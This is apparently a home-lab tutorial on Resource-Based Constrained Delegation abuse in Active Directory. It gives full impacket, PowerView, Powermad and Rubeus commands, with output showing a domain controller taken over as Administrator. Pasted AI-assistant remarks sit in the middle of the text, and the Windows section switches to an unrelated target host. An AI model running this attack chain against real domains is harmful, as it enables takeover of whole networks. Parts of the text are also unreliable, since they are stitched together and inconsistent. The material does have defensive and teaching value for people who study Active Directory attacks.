






# 🔐 Resource-Based Constrained Delegation (RBCD) Attack


##  What is Resource-Based Constrained Delegation (RBCD)?

**Resource-Based Constrained Delegation (RBCD)** is a security feature in **Active Directory (AD)** that allows administrators to configure **which accounts can impersonate users to access a specific resource**, such as a server or service. Introduced in **Windows Server 2012 R2**, RBCD is a modern and more secure alternative to traditional **Kerberos Constrained Delegation (KCD)**.

Unlike classic KCD, where **delegation is configured on the service account** (i.e., the "caller"), RBCD flips the model: the **resource owner defines who is allowed to impersonate** users to access that resource. This provides greater flexibility and enforces **principle of least privilege**.

---

##  Why Use RBCD?

* **Granular Access Control**: RBCD allows defining access *per resource*, not per service account.
* **Least Privilege Enforcement**: Service accounts can impersonate users only to specific resources — not domain-wide.
* **Better Security**: Reduces attack surface by limiting impersonation scope.
* **No Domain Admin Required**: Even non-privileged users can register computer accounts and delegate to them — useful in post-exploitation.

---

## Example difference of KCD and RBCD

###  **Traditional Kerberos Constrained Delegation (KCD)**

####  **Configured on: The service account**

You configure the service account to delegate access to specific services on specific hosts.

####  **Example Scenario:**

You have:

* `WebAppSrv$` – computer account running a web app
* `SQLSrv` – SQL server with a database
* Users – authenticated users who access the web app

####  How it works (KCD):

* On `WebAppSrv$` (in AD), you set:
  `Trust this computer for delegation to specified services only`

* Then you add:
  `MSSQLSvc/sqlsrv.furious.local` (the SPN of SQLSrv)

####  Result:

* `WebAppSrv$` can impersonate **any user** to the SQL service on `SQLSrv`.

**Problem**: If `WebAppSrv$` is compromised, it can impersonate **anyone** to `SQLSrv` from **anywhere**.

---

###  **Resource-Based Constrained Delegation (RBCD)**

####  **Configured on: The resource (target server)**

You configure the **target resource** to specify **who is allowed to impersonate users to it**.

####  **Same Scenario (RBCD way):**

* `WebAppSrv$` – computer account running a web app
* `SQLSrv` – SQL server with a database
* Users – authenticated users who access the web app

#### How it works (RBCD):

* On **`SQLSrv`**, you set:
  The `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute in AD
  ➤ Add `WebAppSrv$` as allowed to delegate **to `SQLSrv`**

####  Result:

* Now `WebAppSrv$` can impersonate users **only to SQLSrv**
* **Other resources (like FileSrv or DC01) remain protected**

**Security Benefit**: If `WebAppSrv$` is compromised, it can **only** access `SQLSrv`, **not** other services.


## How to Enable Resource-Based Constrained Delegation (RBCD)**

To enable RBCD, you must configure the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the **target computer account** in Active Directory. This attribute defines which security principals (like service accounts or computers) are allowed to impersonate users **to that resource**. You can set it using PowerShell or LDAP tools. Once configured, the specified account can impersonate users when accessing the service — but **only to that resource**, ensuring granular control and enforcing least privilege. Always assign this permission carefully to avoid unintended access.


## What is an RBCD Attack?

An RBCD (Resource-Based Constrained Delegation) attack is a post-exploitation technique in Active Directory where an attacker abuses misconfigured or overly permissive delegation settings. If an attacker compromises a low-privileged account and can create or control a computer account, they can configure the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on a target computer (often a domain controller) to include their controlled account. This allows them to impersonate any domain user — including domain admins — to the target service. Once impersonation is successful, the attacker can request service tickets and potentially gain privileged access, leading to full domain compromise.

---

### Setting up Lab for RBCD

1. We must have **GenericWrite** permission on a computer object.
2. Create or use an existing user (e.g., `jcharles`).
3. Go to the computer object in **Active Directory Users and Computers**.
4. Open the **Security** tab, add the user, and grant **Write** permission.
5. This gives `jcharles` **GenericWrite** on the computer object.



---

### Enumeration

We can confirm that the user `jcharles` has **GenericWrite** permissions on the computer object `DC01-FURIOUS5`.



---

##  Exploiting RBCD Attack (From Linux)


### 1. Create a New Computer Account

We begin by creating a new computer account `NewComp$` using the user `jcharles` (password: `complex1@`). The new computer password is `password123`.

```bash
impacket-addcomputer -computer-name 'NewComp$' -computer-pass 'password123' -dc-host furious.local 'furious.local/jcharles:complex1@'
```

```bash
┌──(kali㉿kali)-[~/Home-lab/rbcd]
└─$ impacket-addcomputer -computer-name 'NewComp$' -computer-pass 'password123'  -dc-host furious.local  'furious.local'/'jcharles':'complex1@'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account NewComp$ with password password123.
```

---

### 2. Set the RBCD Permissions

We populate the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to allow `NewComp$` to impersonate accounts on the domain controller `DC01-FURIOUS5$`.

```bash
impacket-rbcd -delegate-from 'NewComp$' -delegate-to 'DC01-FURIOUS5$' -dc-ip 192.168.129.140 -action 'write' 'furious.local/jcharles:complex1@'
```

```
┌──(kali㉿kali)-[~/Home-lab/rbcd]
└─$ impacket-rbcd -delegate-from 'NewComp$' -delegate-to 'DC01-FURIOUS5$' -dc-ip 192.168.129.140  -action 'write' 'furious.local'/'jcharles':'complex1@'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Accounts allowed to act on behalf of other identity:
[-] SID not found in LDAP: S-1-5-21-3290932372-4080220911-1111251399-1141
[-] SID not found in LDAP: S-1-5-21-3290932372-4080220911-1111251399-1142
[*] Delegation rights modified successfully!
[*] NewComp$ can now impersonate users on DC01-FURIOUS5$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[-] SID not found in LDAP: S-1-5-21-3290932372-4080220911-1111251399-1141
[-] SID not found in LDAP: S-1-5-21-3290932372-4080220911-1111251399-1142
[*]     NewComp$     (S-1-5-21-3290932372-4080220911-1111251399-1143)

```

---

### 3. Get a Service Ticket for Administrator

We now impersonate the `Administrator` account and request a CIFS service ticket using `getST.py`.

```bash
impacket-getST -spn 'cifs/DC01-FURIOUS5.furious.local' -impersonate administrator -dc-ip 192.168.129.140 'furious.local/NewComp$:password123'
```

```bash
┌──(kali㉿kali)-[~/Home-lab/rbcd]
└─$ impacket-getST -spn 'cifs/DC01-FURIOUS5.furious.local' -impersonate administrator -dc-ip 192.168.129.140 'furious.local/NewComp$:password123'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
/usr/share/doc/python3-impacket/examples/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/usr/share/doc/python3-impacket/examples/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_DC01-FURIOUS5.furious.local@FURIOUS.LOCAL.ccache
                                                                             
```

---

### 4. Export the Ticket and Authenticate

Export the saved Kerberos ticket and authenticate using it:

```bash
export KRB5CCNAME=administrator@cifs_DC01-FURIOUS5.furious.local@FURIOUS.LOCAL.ccache
netexec smb 192.168.129.140 -u 'Administrator' --use-kcache
```

```bash
┌──(kali㉿kali)-[~/Home-lab/rbcd]
└─$ export KRB5CCNAME=administrator@cifs_DC01-FURIOUS5.furious.local@FURIOUS.LOCAL.ccache 
                                                                                                                                                           
┌──(kali㉿kali)-[~/Home-lab/rbcd]
└─$ netexec smb 192.168.129.140 -u 'Administrator' --use-kcache                          
SMB         192.168.129.140 445    DC01-FURIOUS5    [*] Windows Server 2022 Build 20348 x64 (name:DC01-FURIOUS5) (domain:furious.local) (signing:True) (SMB:False)                                                                                                                                                    
SMB         192.168.129.140 445    DC01-FURIOUS5    [+] furious.local\Administrator from ccache (Pwn3d!)
               
```
---


Here's your revised and professionally formatted Markdown documentation for **"Exploiting RBCD Attack (From Windows)"**. I've kept your original content but corrected grammar, added clarity where needed, fixed formatting issues, and ensured a clean professional tone, without adding unnecessary details.

---

## Exploiting RBCD Attack (From Windows)


### 1. Upload Required Tools

First, upload the following tools to the target system:

* `PowerView.ps1`
* `Powermad.ps1`
* `Rubeus.exe`

Then load PowerView and Powermad into the current PowerShell session:

```powershell
. .\PowerView.ps1
. .\Powermad.ps1
```

---

### 2. Create a New Machine Account

Use Powermad to create a new attacker-controlled computer account:

```powershell
New-MachineAccount -MachineAccount evilcomp -Password $(ConvertTo-SecureString 'password' -AsPlainText -Force)
```

---

### 3. Get the SID of the New Computer Account

Retrieve the **SID** of the newly created computer using PowerView:

```powershell
$ComputerSid = Get-DomainComputer evilcomp -Properties objectsid | Select -Expand objectsid
```

---

### 4. Create a New Security Descriptor

Build a generic **Access Control Entry (ACE)** using the attacker computer SID:

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

---

### 5. Set the `msDS-AllowedToActOnBehalfOfOtherIdentity` Attribute

Apply the new security descriptor to the target computer (`DC01-FURIOUS5`) using PowerView:

```powershell
Get-DomainComputer DC01-FURIOUS5 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```



---

### 6. Hash the Password Using Rubeus

Use Rubeus to hash the plaintext password (`password`) into its `RC4_HMAC` format:

```cmd
Rubeus.exe hash /password:password
```

Output:

```
8846F7EAEE8FB117AD06BDD830B7586C
```



---

### 7. Perform S4U Delegation with Rubeus

Use Rubeus to impersonate the domain administrator and request a service ticket for the target service (`cifs/dc.support.htb`):

```cmd
Rubeus.exe s4u /user:system$ /rc4:8846F7EAEE8FB117AD06BDD830B7586C /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```



---

### 8. Convert and Export the Ticket

1. Decode the base64 output from Rubeus.
2. Convert it to `.ccache` format using `impacket-ticketconverter`.
3. Export it for use with `netexec`.



---

It looks like you meant **S4U**, not **su4** — it's a common typo. Here's what **S4U** means in the context of Windows authentication and the RBCD attack:

---

##  What is S4U?

**S4U** stands for **Service for User**, and it's part of the **Kerberos protocol extension** in Windows that allows a service to obtain a Kerberos service ticket on behalf of a user, **without needing the user's password**.

It has two main components:

### 1. **S4U2Self (Service for User to Self)**

Allows a service to **request a ticket for itself** on behalf of a user.

* The service can say: *"I want to act as this user to myself."*
* Useful when the user did not authenticate via Kerberos (e.g., via NTLM or another method).

### 2. **S4U2Proxy (Service for User to Proxy)**

Allows a service that received an S4U2Self ticket to **request access to another service** on behalf of that user.

* The service can now act **as if it were the user**, to another service (like CIFS, HTTP, LDAP, etc.).
* This is what **Resource-Based Constrained Delegation (RBCD)** abuses.

---
